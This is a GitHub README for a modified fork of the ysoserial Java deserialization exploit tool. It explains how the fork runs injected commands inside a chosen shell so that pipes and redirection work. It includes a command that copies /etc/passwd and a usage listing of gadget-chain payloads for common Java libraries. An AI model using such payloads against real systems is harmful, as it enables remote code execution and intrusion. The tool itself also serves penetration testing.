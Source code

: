 
# ysoserial-modified 

Thats a fork of the original ysoserial application that can be found here: [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

## Description of the Modification

Due how `Runtime.getRuntime().exec(String.class)` works in java, nested and complex commands where you'll need control pipes or send the output to files (ex: cat /etc/passwd > /tmp/passwd_copy) will not work because the command isn't executed inside of a terminal environment. One possible hack is execute "/bin/sh -c 'command'" but you'll need escape spaces on the command to be executed using ${IFS} or it will not work as expected. For more details please read that [this blopost](http://codewhitesec.blogspot.com.au/2015/03/sh-or-getting-shell-environment-from.html) that will go deep on the details.

To fix that problem, arguments should be passed to the method `Runtime.getRuntime().exec(String[].class)` that expects an array of Strings.

So I added a functionality where you give the type of the terminal that you want use to create the command (cmd / bash / powershell / none) and my modification will execute your command inside of that terminal context allowing you to execute any complex command.

## Usage

```shell
pimps@Scorpion:~/git/ysoserial-modified/target$ java -jar ysoserial-modified.jar 
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] [terminal type: cmd / bash / powershell / none] '[command to execute]'
   ex: java -jar ysoserial-[version]-all.jar CommonsCollections5 bash 'touch /tmp/ysoserial'
	Available payload types:
		BeanShell1 [org.beanshell:bsh:2.0b5]
		C3P0 [com.mchange:c3p0:0.9.5.2, com.mchange:mchange-commons-java:0.2.11]
		CommonsBeanutils1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
		CommonsCollections1 [commons-collections:commons-collections:3.1]
		CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections3 [commons-collections:commons-collections:3.1]
		CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections5 [commons-collections:commons-collections:3.1]
		CommonsCollections6 [commons-collections:commons-collections:3.1]
		FileUpload1 [commons-fileupload:commons-fileupload:1.3.1, commons-io:commons-io:2.4]
		Groovy1 [org.codehaus.groovy:groovy:2.3.9]
		Hibernate1 []
...
```
